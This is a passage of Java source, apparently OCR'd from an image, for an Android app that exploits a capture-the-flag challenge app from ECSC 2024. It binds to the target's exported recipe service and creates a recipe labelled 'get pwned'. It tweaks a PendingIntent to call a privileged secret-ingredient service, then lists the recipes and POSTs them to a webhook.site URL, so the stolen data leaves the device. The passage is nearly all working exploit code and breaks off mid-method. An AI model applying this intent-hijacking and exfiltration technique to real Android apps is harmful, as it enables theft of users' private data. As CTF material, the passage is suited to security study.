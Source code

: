 ```java
        createData.putString("name", "1337");
        createData.putString("description", "get pwned");
        Bundle createdRecipe = callService(1 /* MSG_CREATE_RECIPE */, createData, null);
        Log.d(TAG, "Created recipe ID = " + createdRecipe.getInt("id"));

        Bundle secretData = new Bundle();
        secretData.putString("secret", "wrong");
        callService(5 /* MSG_ADD_SECRET_INGREDIENT */, secretData, intent -> {
            intent.setAction("it.ecsc2024.jeopardy.chall.ADD_SECRET_INGREDIENT_SERVICE");
            intent.setClassName("it.ecsc2024.jeopardy.chall", "it.ecsc2024.jeopardy.chall.services.AddSecretIngredientService");
            intent.putExtra("id", createdRecipe.getInt("id"));
        });

        Bundle recipesList = callService(3 /* MSG_LIST_RECIPES */, new Bundle(), null);
        System.out.println(recipesList.getString("recipes"));

        try {
            URL webhookUrl = new URL("https://webhook.site/xxxxxxxxx");
            URLConnection connection = webhookUrl.openConnection();
            connection.setDoOutput(true);

            try (OutputStream os = connection.getOutputStream()) {
                os.write(recipesList.getString("recipes").getBytes());
            }

            try (InputStream is = connection.getInputStream()) {
                is.read();
            }
        } catch (IOException e) {
            Log.e(TAG, "Failed to send webhook request", e);
        }
    }

    private Bundle callService(int what, Bundle data, Consumer<Intent> tweak) {
        if (mService == null) {
            throw new IllegalStateException();
        }

        PendingIntent pendingResult = createPendingResult(
                100,
                new Intent(),
                PendingIntent.FLAG_ONE_SHOT | PendingIntent.FLAG_UPDATE_CURRENT
        );
        data.putParcelable("intent", pendingResult);

        Message msg = Message.obtain(null, what);
        msg.replyTo = mReplyTo;
        msg.setData(data);

        mReplyHandler.setTweakCallback(tweak);

        AtomicReference<Bundle> respData = new AtomicReference<>();
        mCallback = bundle -> {
            synchronized (respData) {
                respData.set(bundle);
                respData.notify();
            }
        };

        try {
            mService.send(msg);
        } catch (RemoteException e) {
```